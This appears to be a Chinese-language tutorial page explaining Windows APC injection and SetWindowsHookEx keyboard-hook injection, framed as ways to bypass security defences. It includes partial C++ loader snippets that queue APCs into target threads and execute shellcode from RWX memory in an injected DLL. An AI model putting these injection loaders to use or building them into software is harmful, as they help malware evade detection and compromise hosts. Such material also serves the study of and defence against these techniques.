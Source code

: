 ### apc注入

#### 介绍

APC（Asynchronous Procedure Call）注入是一种基于Windows操作系统的高级漏洞利用技术，通常用于绕过安全防护措施，执行恶意代码。其原理如下：

1.  APC注册：在目标进程中创建一个用户模式线程，并将其关联到一个合法的可执行函数或API回调函数。
    
2.  注入：攻击者将恶意代码加载到目标进程的虚拟地址空间中，通常使用远程线程注入、DLL注入等方法。
    
3.  触发APC：攻击者在目标进程的上下文中，使用QueueUserAPC函数将用户模式线程与恶意代码关联，将其添加到被攻击者的执行队列中。
    
4.  执行：当目标进程执行到特定的同步点时，即进入了ALERTABLE状态（如进入等待状态、等待用户输入等），执行队列中的用户模式线程得到执行并执行恶意代码。
    

APC注入利用了Windows操作系统的异步过程调用机制，通过向进程中注入线程，并在指定时机触发线程执行，从而实现执行恶意代码的目的。由于APC是在目标进程的上下文中执行，所以可以绕过一些安全防护措施，使恶意代码不易被检测和阻止。

需要注意的是，APC注入是一种高级的攻击技术，需要深入了解操作系统和漏洞利用原理才能正确实施。在合法场景下使用或研究APC注入，请确保符合法律规定，并遵循合规的安全测试流程。

#### 具体实现代码

既然是注入每一个线程，自然要有一个循环，循环每一个线程：

```plain
for (DWORD threadId : threadIds) {
        threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }
```

其他的代码和别的加载方式并没太大差别。当然还有apc注入earlybird版本，建议自行研究了。

### HOOK键盘SetWindowHookEx代码注入

​ 这个就稍微有点难度了，但仔细研究并没多难。Windows允许程序使用`SetWindowHookEx`安装钩子来监控各种系统事件，如鼠标点击和键盘按键。

1.  一个载荷
2.  创建一个恶意程序
3.  解析地址，挂钩
4.  键盘输入内容，加载恶意载荷。

#### 代码

```plain
HMODULE library = LoadLibraryA("Dll1.dll");
    HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
    Sleep(10 * 1000);
    UnhookWindowsHookEx(hook);
```

而在dll里：

```plain
extern "C" __declspec(dllexport) int spotlessExport() {
    unsigned char shellcode[] = "";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
```
